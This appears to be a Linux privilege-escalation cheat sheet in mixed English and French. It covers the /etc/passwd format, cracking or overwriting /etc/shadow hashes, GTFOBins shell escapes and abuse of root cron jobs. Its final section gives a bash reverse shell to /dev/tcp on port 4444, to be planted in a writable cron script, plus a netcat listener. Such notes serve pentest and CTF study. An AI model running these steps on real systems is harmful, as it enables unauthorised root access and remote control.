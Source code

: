 ***FORMAT PASSWD :***
***test:x:0:0:root:/root:/bin/bash ***
[as divided by colon (:)]  
Username: It is used when user logs in. It should be between 1 and 32 characters in length.  
Password: An x character indicates that encrypted password is stored in /etc/shadow file. sha512  
User ID (UID): Each user must be assigned a user ID (UID).   
UID 0 = root /   
UIDs 1-99 other predefined accounts.   
UID 100-999 are reserved by system for administrative and system accounts/groups.  
UID 1000+ users  
Group ID (GID): The primary group ID (stored in /etc/group file)  
User ID Info: extra information about the users.  
Home directory: The absolute path to the directory the user will be in when they log in  
Command/shell: The absolute path of a command or shell (/bin/bash). 

### READABLE /ETC/SHADOW :
crack the hash with john : it's supposed to be sha-512
### WRITABLE /ETC/SHADOW :
make a new password : 
```bash
mkpasswd -m sha-512 newpasswordhere
```


### SHELL ESCAPE : https://gtfobins.github.io
```bash
$sudo -l  
```

### EXLOITING CRON JOBS :
- view which ones are actives : 
```bash
$cat /etc/crontab
```
On regarde si certains se lance avec des droits root et si on peut les modifier  
Si oui, il y a la place pour un reverse shell  


Format =# = ID  
m = Minute  
h = Hour  
dom = Day of the month  
mon = Month  
dow = Day of the week  
user = What user the command will run as  
command = What command should be run  
For Example :    
-  m   h dom mon dow user  command  
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly

### WRITEABLE CRON JOBS :
### Exemple :
##### REVERSE SHELL :
on écrit l'imitation du file et on setup un listener (en ayant remplacer l'ip et le port:
```bash
#!/bin/bash
bash -i >& /dev/tcp/[Adresse IP]/4444 0>&1
```
```bash
$ nc -lvnp 4444
```
